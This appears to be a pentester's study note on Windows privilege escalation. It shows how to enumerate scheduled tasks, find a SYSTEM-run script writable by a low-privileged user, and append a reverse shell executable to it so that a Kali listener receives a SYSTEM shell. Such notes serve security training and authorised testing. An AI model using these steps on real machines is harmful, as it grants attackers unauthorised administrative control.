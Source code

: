 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Unfortunately, there is no easy method for enumerating custom tasks that belong to other users as a low privileged user account.

List all scheduled tasks your user can see:

```command prompt - windows
schtasks /query /fo LIST /v
```

In PowerShell:

PS>
```command prompt - windows
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

Often we have to rely on other clues, such as finding a script or log file that indicates a scheduled task is being run.

1. In the C:\DevTools directory, there is a PowerShell script called “CleanUp.ps1”. View the script:

```command prompt - windows
type C:\DevTools\CleanUp.ps1
```

2. This script seems like it is running every minute as the SYSTEM user. We can check our privileges on this script using accesschk.exe:

```command prompt - windows
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```

It appears we have the ability to write to this file.

3. Backup the script:

```command prompt - windows
copy C:\DevTools\CleanUp.ps1 C:\Temp\
```

4. Start a listener on Kali.

[[rlwrap]]

5. Use echo to append a call to our reverse shell executable to the end of the script:

[[1._Reverse Shells (WIN)#MSFVenom]]

```command prompt - windows
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

6. Wait for the scheduled task to run (it should run every minute) to complete the exploit.


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
